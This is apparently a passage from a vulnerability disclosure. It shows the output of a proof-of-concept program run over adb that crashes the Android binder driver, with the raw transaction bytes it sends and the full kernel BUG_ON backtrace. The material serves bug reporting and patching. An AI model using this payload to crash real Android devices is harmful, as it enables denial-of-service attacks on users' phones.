 
Running the POC produces the following output:
```
$ adb shell /data/local/tmp/dos
Preparing transaction...
RAW transaction data: 41 42 43 00 85 2a 74 70 00 00 00 00 70 3c c5 ff 00 00 00 00 64 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 85 2a 74 70 01 00 00 00 70 3c c5 ff 00 00 00 00 64 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 32 00 00 00 00 00 00 00
Sending transaction...
```

The raw `BUG_ON` backtrace generated from this build is:
```
[ 2350.028593] kernel BUG at /buildbot/src/partner-android/q-common-android-4.14/common/drivers/android/binder_alloc.c:1128!
[ 2350.032746] invalid opcode: 0000 [#1] PREEMPT SMP PTI
[ 2350.034529] Modules linked in:
[ 2350.035515] CPU: 1 PID: 4078 Comm: dos Not tainted 4.14.123-420850-g3b491d485e67 #1
[ 2350.037927] task: 00000000ea8f17b6 task.stack: 00000000ddd0dcc8
[ 2350.039853] RIP: 0010:binder_alloc_do_buffer_copy+0x178/0x180
[ 2350.041846] RSP: 0018:ffffc900035cfaa8 EFLAGS: 00210202
[ 2350.043631] RAX: 00000000ec369000 RBX: 0000000000000004 RCX: 000000000000009a
[ 2350.046017] RDX: ffff88807c817f60 RSI: 0000000000000148 RDI: ffff88807b9689a0
[ 2350.048459] RBP: ffffc900035cfaf8 R08: ffffc900035cfc18 R09: 0000000000000008
[ 2350.051677] R10: 0000000000000000 R11: ffffffff813dc200 R12: ffff88807c817f60
[ 2350.054913] R13: ffff88807b9689a0 R14: 0000000000000004 R15: 0000000000000064
[ 2350.058037] FS:  0000000000000000(0000) GS:ffff88807fd00000(006b) knlGS:00000000f237d494
[ 2350.061533] CS:  0010 DS: 002b ES: 002b CR0: 0000000080050033
[ 2350.063933] CR2: 00000000e89ae700 CR3: 000000002013a006 CR4: 00000000003606e0
[ 2350.066829] Call Trace:
[ 2350.067822]  binder_alloc_copy_to_buffer+0x1a/0x20
[ 2350.069891]  binder_transaction+0x2c9d/0x3930
[ 2350.071543]  ? mntput+0x1b/0x30
[ 2350.072882]  ? terminate_walk+0x6f/0x110
[ 2350.074713]  binder_ioctl_write_read+0x5f0/0x3ae0
[ 2350.076666]  ? avc_has_extended_perms+0x311/0x480
[ 2350.078558]  ? binder_get_thread+0x294/0x2b0
[ 2350.080404]  binder_ioctl+0x221/0x730
[ 2350.081874]  compat_SyS_ioctl+0x139/0x15f0
[ 2350.083585]  do_fast_syscall_32+0xa2/0x100
[ 2350.085319]  entry_SYSENTER_compat+0x7f/0x8e
[ 2350.087138] RIP: 0023:0xf24c9ec9
[ 2350.088337] RSP: 002b:00000000ffa57d2c EFLAGS: 00200286 ORIG_RAX: 0000000000000036
[ 2350.090650] RAX: ffffffffffffffda RBX: 0000000000000003 RCX: 00000000c0306201
[ 2350.092822] RDX: 00000000ffa57db0 RSI: 00000000f1ca7140 RDI: 00000000ffa57e78
[ 2350.095108] RBP: 00000000ffa57d78 R08: 0000000000000000 R09: 0000000000000000
[ 2350.097324] R10: 0000000000000000 R11: 0000000000000000 R12: 0000000000000000
[ 2350.099480] R13: 0000000000000000 R14: 0000000000000000 R15: 0000000000000000
[ 2350.101675] Code: 4d b0 4d 29 e1 48 8b 4d b8 48 8b 7d c0 0f 85 30 ff ff ff eb 07 e8 bf 76 89 ff eb e2 48 83 c4 28 5b 41 5c 41 5d 41 5e 41 5f 5d c3 <0f> 0b 66 0f 1f 44 00 00 55 48 89 e5 4d 89 c1 49 89 f0 31 f6 e8 
[ 2350.108778] RIP: binder_alloc_do_buffer_copy+0x178/0x180 RSP: ffffc900035cfaa8
[ 2350.114861] ---[ end trace 0132b95adaf66f79 ]---
```
